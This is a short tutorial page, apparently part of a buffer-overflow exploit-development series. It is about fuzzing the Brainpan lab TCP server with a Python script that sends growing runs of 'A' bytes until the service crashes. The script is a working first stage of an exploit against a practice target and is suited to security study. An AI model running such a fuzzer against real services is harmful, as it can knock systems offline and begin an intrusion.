

# Fuzzing using Python

## What is Fuzzing?

Fuzzing or fuzz testing is an automated software testing technique that involves providing invalid, unexpected, or random data as inputs to a computer program.

I write a python script called [brainpan_fuzzer1.py](https://github.com/cris-m/buffer_overflow_exploit_development/blob/main/assets/resources/brainpan_fuzzer1.py) to send data to ``brainpan.exe`` TCP server.

```python
#!/usr/bin/python3
import sys
import socket
from time import sleep

buffer = b"A" * 100

while True:
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(('192.168.10.4', 9999))
        payload = b'shitstorm /.:/' + buffer
        sock.send(payload)
        sock.close()
        sleep(1)
        buffer += b"A" * 100
    except:
        print("Fuzzing crash at %s bytes" % str(len(buffer)))
        sys.exit()

```

The program send a bunch of ``A`` until it overflows the buffer. The difference with the ``spiking script`` is the python script will tell us how many bytes crash ``brainpan.exe`` TCP server.  I execute the program, it has overflown the buffer. Here is the output.



___

 Next to [Finding the offset](https://github.com/cris-m/buffer_overflow_exploit_development/blob/main/assets/documentations/offset.md)
